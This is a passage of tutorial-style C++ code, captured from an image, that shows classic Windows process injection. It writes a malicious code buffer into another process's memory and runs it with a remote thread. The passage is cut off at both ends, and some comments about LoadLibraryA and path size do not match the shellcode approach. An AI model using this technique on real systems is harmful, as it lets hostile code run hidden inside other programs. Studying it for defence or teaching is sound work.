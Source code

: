 ```cpp
	}
	else
	{
		printf("[+] Successfully allocated some memory in the victim process\n");
		printf("[+] Starting address: %p\n", allocatedMemory);
	}

	/*
	Once we have allocate a memory page in the victim process, we can write our shellcode there.
	*/
	BOOL retVal = WriteProcessMemory(
		handleVictimProcess,			// handle to the process in which to the write the bytes
		allocatedMemory,				// starting address where to write the bytes
		maliciousCode,					// buffer containing the bytes to write
		sizeof(maliciousCode),			// number of bytes to write, in this case: the size of the path
		NULL							// pointer to variable which will contain the number of bytes written
										// in this case, we don't really need it
	);							
										

	if (retVal == 0)
	{
		printf("[!] Call to WriteProcessMemory failed\n");
		printf("[!] Specific Win32 error: %d\n", GetLastError());

		return 1;
	}
	else
	{
		printf("[+] Successfully wrote the malicious code in the memory page\n");
	}

	/*
	We're ready to create a new thread in the victim process, in order to
	execute the malicious code and perform the Process Injection
	*/
	HANDLE remoteThread = CreateRemoteThread(
		handleVictimProcess,								// handle to the victim process
		NULL,												// pointer to SECURITY_ATTRIBUTES struct
															// can be null if we want default security attributes
		0,													// size of the stack, 0 for default
		(LPTHREAD_START_ROUTINE)allocatedMemory,			// starting address of the thread
															// in this case, the address of LoadLibraryA
		NULL,												// pointer to a variable to be passed to the thread function
		0,													// flags to manipulate the creation of the thread
															// (e.g. start suspended)
															// in this case, 0 -> start thread immediately
		NULL												// pointer to a variable that receives the thread identifier
															// we don't need it, so it's set to NULL
	);												
															

	if (remoteThread == NULL)
```
